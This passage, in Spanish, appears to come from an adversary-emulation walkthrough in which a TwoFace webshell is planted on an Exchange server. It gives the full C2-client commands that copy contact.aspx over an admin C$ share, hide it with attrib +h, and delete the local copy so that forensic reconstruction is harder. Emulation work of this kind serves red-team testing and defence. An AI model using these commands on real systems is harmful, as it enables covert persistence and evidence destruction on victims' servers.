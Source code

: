 **Desglose del comando:**
- `copy`: Comando de Windows para copiar archivos
- `C:\Users\Public\contact.aspx`: Archivo origen
- `\\10.1.0.6\C$\...`: Ruta UNC al share administrativo C$ de WATERFALLS
- Destino: Directorio EWS de Exchange Server

**Autenticación:**
- Utiliza el token de seguridad actual de Gosta
- Gosta es miembro de "EWS Admins", lo que proporciona acceso administrativo a WATERFALLS
- No se requiere especificar credenciales explícitamente (single sign-on Kerberos)

**Ruta completa de instalación:**
```
\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx
```

Esta ruta es accesible vía web como:
```
https://10.1.0.6/ews/contact.aspx
```

**Paso 3: Ocultar el Webshell**

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"'
```

**Propósito:**
- Establece el atributo "oculto" en contact.aspx
- El archivo no aparece en exploraciones de archivos normales
- Requiere `dir /a:h` o configuración de "mostrar archivos ocultos" para verlo

**Limitaciones de esta técnica:**
- No oculta de herramientas forenses
- No oculta de listados recursivos con parámetros apropiados
- No oculta de escaneos de seguridad que ignoran atributos

**Paso 4: Eliminación de Evidencia Local**

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx" & del C:\Users\Public\contact.aspx'
```

(Este comando combina el atributo oculto y la eliminación en una sola línea)

**Propósito:**
- Eliminar contact.aspx de THEBLOCK
- Reduce el footprint del atacante
- Dificulta reconstrucción forense del ataque
- Mantiene solo una copia del webshell (en WATERFALLS)

#### Análisis del Malware: TwoFace Webshell

**Arquitectura de TwoFace:**

TwoFace es un webshell de dos etapas, aunque en esta emulación se usa una versión simplificada de una sola etapa que combina todas las funcionalidades.
